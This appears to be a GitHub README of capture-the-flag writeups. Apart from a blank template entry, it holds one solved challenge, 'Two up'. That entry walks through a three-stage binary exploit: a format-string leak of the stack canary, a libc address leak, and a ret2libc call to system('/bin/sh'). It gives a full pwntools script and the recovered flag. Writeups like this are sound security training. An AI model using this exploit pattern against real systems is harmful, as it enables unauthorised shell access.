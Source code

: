 # CSA_S1_2024
# CTF Writeups
## Writeups for the ADF Cyber Skills Association Season 1 challenges.

### Title of challenge here
Description - xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
place any code here
```
Solution:
Plugged this straight into ChatGPT:
```
More code here for solution
```
:+1: FLAG{ENTER_FLAG_HERE}
<hr>

### Two up
Description - Let's play some two-up! Flag format:
FLAG{0x.de-adbeef_cafe}

netcat to the remote server on port 1337 (from nmap scan)

Solution:
Found a great tutorial on youtube that went through canary's and NX.
(https://www.youtube.com/watch?v=XaWlKYgmEDs)
Referring to the code from CryptoCat, modified to produce the following.
In stages, running against the remote server, you can leak the libc address
which then allows you to narrow down the libc version running remotely using 
blukat (https://libc.blukat.me/)

After trying several libraries, it turned out to be libc6-amd64_2.31-13+deb11u7_i386.so
Downloaded that locally, renamed to libc.so.6 and ran the code again and got the shell

Overall there's 3 stages:
S1 - leak the Canary
S2 - leak libc
S3 - ret2libc for shell

Brickwalls:
It's tricky getting the code to send the payload at the right prompt of Bet: so that
has to be accurate in code for execution.
```
from pwn import *
import sys

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './twoup'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

def breakpoint_handler(signal, frame):
    print("Breakpoint reached")
    # You can add additional actions here if needed
    pass

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 15  # Canary offset

# Lib-C library
libc = ELF("./libc.so.6")
#ld = ELF("./ld-2.27.so")

pop_rdi = 0x004013fb  # Found with ropper
ret = 0x00401016  # Found with ropper

# Send payload 1
log.info(f'Sending payload 1')
io.sendlineafter(b'Bet:', b'%9$p')
sleep(0.5)
# Canary value
reply1 = io.recvuntil(b'Your bet:')
print("Reply 1 is: ",reply1)
leaked_addresses = io.recvlineS().split("\n")[0]
print("Leaked addresses: ",leaked_addresses)
canary = int(leaked_addresses, 16)
log.info(f'Canary: {hex(canary)}')

# Build payload 2 (leak printf)
payload = flat([
    offset * b'A',  # Pad to canary (15)
    canary, # Our leaked canary (8)
    8 * b'A',  # Pad to Ret pointer (8)
    # Leak got.puts
    pop_rdi,
    elf.got.printf,
    elf.plt.printf,
    0x00401319
])
# Send payload 2
io.recvuntil(b'You lose')
io.sendlineafter(b'Bet:', payload)
sleep(0.5)
io.recvuntil(b'You lose')
io.recvline()
# Retrieve got.printf address
got_printf = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info(f"leaked got_printf: {got_printf:#x}")
libc.address = got_printf - libc.symbols.printf
info(f"libc_base: {libc.address:#x}")

# Build payload 3 (ret2system)
payload = flat([
    offset * b'A',  # Pad to canary (15)
    canary, # Our leaked canary (8)
    8 * b'A',  # Pad to Ret pointer (8)
    # Ret2system
    pop_rdi,
    next(libc.search(b'/bin/sh\x00')),
    ret, # Stack alignment
    libc.symbols.system
])

# Send payload 3
io.recvline()
#io.recvuntil(b'You lose')
io.sendlineafter(b'Bet:',payload)

# Get our flag/shell
io.interactive()

```
:+1: FLAG{w3.w1ll-r3m3mb3r_th3m}
<hr>
